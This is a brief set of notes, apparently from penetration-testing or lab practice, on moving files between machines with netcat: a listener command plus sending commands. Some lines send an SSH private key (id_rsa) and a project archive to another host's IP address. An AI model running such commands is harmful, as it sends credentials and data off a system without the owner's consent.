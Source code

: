 
on your machine:
`nc -l -p 12345 > received_filename.ext`

on the machine where you want the file:
`nc 10.18.21.236 12345 < filename_to_send.ext`
`nc 10.10.14.161 12345 < id_rsa`
`nc 10.10.14.161 12345 < project.zip`

check file size to see when finished, then just crtl+c

